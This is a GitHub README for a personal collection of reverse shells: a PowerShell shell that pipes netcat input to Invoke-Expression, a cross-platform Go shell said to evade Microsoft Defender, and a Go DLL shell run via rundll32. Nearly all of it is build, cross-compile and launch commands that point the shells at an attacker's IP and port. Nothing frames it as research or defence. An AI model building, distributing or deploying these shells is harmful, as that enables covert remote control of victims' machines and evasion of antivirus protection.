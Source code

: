 # My Reverse Shells

# Powershell
Native PowerShell reverse shell to a netcat listener.

Supports commands up to 16384 bytes in length, if you need longer than modify the line where the System.Byte[] object is declared.

This passes all commands entered from the netcat listener to PowerShell's Invoke-Expression, so this supports powershell + cmd.exe commands. Errors are sent over the socket

Usage:

<code>./pwsh_revshell.ps1 -ip 127.0.0.1 -port 3333 </code>


# Golang

Golang reverse shell. Does runtime OS detection and selects proper shell for Windows, Mac, and Linux. Is not detected currently by Microsoft Defender.
To Compile:

Linux:

<code>go build  -ldflags="-s -w" -o revshell revshell.go</code>

Cross compile on Linux for Windows:

<code>GOOS=windows GOARCH=amd64 go build -ldflags="-s -w" -o revshell.exe revshell.go</code>

To run, provide the IP address and port as command line arguments:

<code>./revshell 127.0.0.1 3333</code>

<code>revshell.exe 127.0.0.1 3333</code>



# Golang DLL Reverse Shell

Golang DLL reverse shell designed to be run with rundll32.exe. This currently has the IP and port hardcoded. Modify the IP and port in the source code.
To Compile:

Linux:
You will need to install the following packages on Ubuntu

<code>sudo apt install golang gcc build-essential gcc-mingw-w64-x86-64 gcc-mingw-w64-i686</code>


Cross compile on Linux for Windows:


32 bit DLL

<code>env GOOS=windows GOARCH=386 CGO_ENABLED=1 CC=i686-w64-mingw32-gcc go build -ldflags="-s -w" -buildmode=c-shared -o revshell32.dll revshell_dll.go</code>


64 bit DLL


<code>env GOOS=windows GOARCH=amd64 CGO_ENABLED=1 CC=x86_64-w64-mingw32-gcc go build -ldflags="-s -w" -buildmode=c-shared -o revshell64.dll revshell_dll.go</code>

To run:

<code>rundll32.exe C:\revshell32.dll,Entry</code>
